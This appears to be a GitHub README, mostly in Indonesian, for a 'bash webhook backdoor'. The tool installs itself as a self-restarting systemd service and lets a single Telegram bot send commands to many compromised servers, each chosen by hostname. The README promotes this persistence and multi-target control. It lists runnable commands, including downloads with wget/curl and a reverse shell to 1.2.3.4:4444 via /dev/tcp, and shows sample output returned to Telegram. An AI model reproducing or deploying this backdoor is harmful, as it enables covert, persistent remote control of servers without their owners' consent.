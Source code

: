 # bash webhook backdoor


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
bash install.sh

✅ Service akan restart otomatis jika crash atau mati.
✅ Bisa dicek dengan systemctl status bash.


script ini berjalan untuk multi target itu kenapa di /nc_telegram.sh
ada bagian TARGET_ID=$(hostname)  # Gunakan hostname sebagai ID unik

tujuan nya untuk ketika menjalankkan di telegram comand nya seperti ini 
contoh 
server1 whoami
server2 whoami
server3 whoami

🔥 Keunggulan Metode Ini
✅ Tidak semua target merespon bersamaan, hanya target yang dipilih
✅ Bisa mengontrol banyak target dari satu bot Telegram
✅ Bisa melihat semua target yang aktif

apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


contoh Hasilnya akan dikirim balik ke Telegram:
📡 Target: server1
💻 Command: ls -la
📤 Output:
total 12
drwxr-xr-x  2 root root 4096 Feb 19 12:00 .
drwxr-xr-x 10 root root 4096 Feb 19 10:00 ..
-rw-r--r--  1 root root  123 Feb 19 12:00 example.txt

```
